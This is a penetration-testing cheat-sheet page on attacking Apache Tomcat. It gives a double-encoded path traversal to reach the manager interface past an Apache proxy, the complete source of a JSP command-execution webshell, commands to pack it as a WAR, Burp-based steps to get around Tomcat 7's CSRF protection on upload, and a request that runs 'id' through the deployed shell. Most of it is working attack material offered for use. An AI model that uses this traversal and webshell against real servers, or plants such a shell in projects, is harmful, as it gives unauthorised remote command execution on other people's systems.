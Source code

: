 # Tomcat

## Tomcat

JSP or servlet

### Bypass apache proxy

`/examples/jsp/%252e%252e/%252e%252e/manager/html`

### JSP webshell

```
<FORM METHOD=GET ACTION='test.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```

#### Create a war archive

```csharp
mkdir test
mv test.jsp test
cd test

/usr/lib/jvm/java-14-openjdk/bin/./jar -cvf ../test.war *

Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=lcd
added manifest
adding: index.jsp(in = 579) (out= 351)(deflated 39%)
                                                            
```

### Bypass CSRF&#x20;

### Tomcat7 is using a CSRF protection in upload field

Upload the file and click on deploy and capture the request .

#### Modify the path&#x20;

`jsp/%252e%252e/manager/htm/`

![](<../../.gitbook/assets/image (229).png>)

#### Capture the response in burp

![](<../../.gitbook/assets/image (159).png>)

####

#### Modify the CSRF protection path ( / instead of /manager) in the server response

* refresh the manager page to get the token



![](<../../.gitbook/assets/image (248).png>)

* Modify the response

![](<../../.gitbook/assets/image (225).png>)

```
Set-Cookie: JSESSIONID=62FC9D661A6E815FCC2FE73B5B8DA686; Path=/; HttpOnly
```

* Modify the DOM path for Deploy

![](<../../.gitbook/assets/image (46) (1).png>)

### Access the webshell

```
examples//%252e%252e/test/index.jsp?cmd=id
```

![](<../../.gitbook/assets/image (278) (1).png>)
